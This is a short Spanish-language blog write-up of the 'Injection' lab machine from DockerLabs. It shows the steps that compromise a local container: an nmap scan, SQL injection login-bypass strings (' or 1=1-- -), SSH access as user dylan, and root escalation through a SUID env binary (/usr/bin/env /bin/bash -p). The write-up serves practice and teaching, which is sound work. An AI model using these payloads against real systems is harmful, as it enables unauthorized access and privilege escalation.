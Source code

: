 ```yaml
---
layout: post
title: "Injection"
date: 2024-07-01 11:05:23
category: sample
vm: dockerlabs
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Injection </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Muy Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/dockerlabs/injection/host.png){:.margin}

**1\.** Escaneando puertos y servicios de la maquina.

`sudo nmap -p- -T5 -sCV --min-rate=5000 -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/injection/nmap.png){:.margin}

**2\.** Por el servicio apache encontramos un panel login.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/injection/80.png){:.margin}

**3\.** Intento provocar un error en la query, ya sabiendo que se acontece una injection sql, bypasseo el login.

`' or 1=1`

`'or 1=1-- -`

![img](/notas/public/img/dockerlabs/injection/errordb.png){:.margin}
![img](/notas/public/img/dockerlabs/injection/loginor.png){:.margin}
![img](/notas/public/img/dockerlabs/injection/loginok.png){:.margin}

**4\.** Me conecto por ssh como dylan.

`ssh dylan@172.17.0.2`

![img](/notas/public/img/dockerlabs/injection/sshdylan.png){:.margin}

**5\.** Busco binarios SUID.

`find / -perm -4000 2>/dev/null`

![img](/notas/public/img/dockerlabs/injection/find.png){:.margin}

**6\.** Escalando privilegios, podemos aprovechar el binario env si lo buscamos en [gtfobins](https://gtfobins.github.io/gtfobins/env/#suid).

`/usr/bin/env /bin/bash -p`

![img](/notas/public/img/dockerlabs/injection/root.png){:.margin}

<br>

<span class="finish">_Finalizado._</span>